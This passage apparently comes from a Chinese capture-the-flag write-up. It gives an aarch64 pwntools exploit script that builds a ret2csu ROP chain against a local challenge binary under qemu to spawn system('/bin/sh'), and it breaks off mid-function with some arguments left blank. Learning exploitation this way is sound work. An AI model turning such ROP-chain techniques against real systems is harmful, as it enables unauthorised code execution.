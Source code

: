执行 g2

[![](assets/1700442742-5e8abd77649d2bcf317096d14871f96e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183827-70f94cf8-8535-1.png)

执行`system('/bin/sh',0,0)`​

[![](assets/1700442742-f6a25a40a874fe8d61e1a079f0003f09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183830-73327a80-8535-1.png)

##### exp：

```bash
from pwn import *
import os

context(os = "linux", arch = 'aarch64', log_level = 'debug')

def dbg():
    os.system('gnome-terminal -x sh -c "gdb-multiarch pwn -ex \'target remote 127.0.0.1:7010\' "')
    pause()


p = process(['qemu-aarch64','-g','7010','-L','/usr/aarch64-linux-gnu/','./pwn'])
#p = process(['qemu-aarch64','-L','/usr/aarch64-linux-gnu/','./pwn'])

elf = ELF("./pwn")
libcso = '/usr/aarch64-linux-gnu/lib/libc.so.6'
libc = ELF(libcso)


context.terminal = ['gnome-terminal','-x','sh','-c']

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')


def arm_csu():
    pl = b'a'*0x88+p64(g1)
    pl += p64()
    pl += p64()
    pl += p64(0xdeadbeef)   #x29
    pl += p64(g2)       #x30

    pl += p64(0)    #x19 --0
```